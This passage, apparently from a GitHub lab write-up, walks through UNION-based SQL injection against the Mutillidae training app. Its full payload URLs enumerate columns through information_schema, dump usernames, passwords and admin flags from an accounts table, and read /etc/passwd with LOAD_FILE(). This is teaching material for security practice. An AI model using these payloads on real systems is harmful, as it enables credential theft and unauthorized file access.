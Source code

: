 ![image](https://github.com/vatsan143/sqlinjection/assets/147368204/6cccd0b2-1c0a-41a3-b336-e9566552a16b)

The url once executed will  retrieve table names from the “owasp 10” database.
##Extracting sensitive data such as passwords 

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.




![image](https://github.com/vatsan143/sqlinjection/assets/147368204/3c0a95ee-3e4f-4c21-8200-508da5695912)
The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=vatsan%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details 

![image](https://github.com/vatsan143/sqlinjection/assets/147368204/dc814aee-0377-4b38-95e6-5380e614206d)





Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=vatsan%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/vatsan143/sqlinjection/assets/147368204/f0b4dcf7-8f05-4e6f-8c8c-f70a546233c8)


## Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=vatsan%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/vatsan143/sqlinjection/assets/147368204/ab2194fc-313b-45db-91a4-090c40831ac8)
![image](https://github.com/vatsan143/sqlinjection/assets/147368204/96787dae-0313-4b78-804a-4e6be028a9a8)
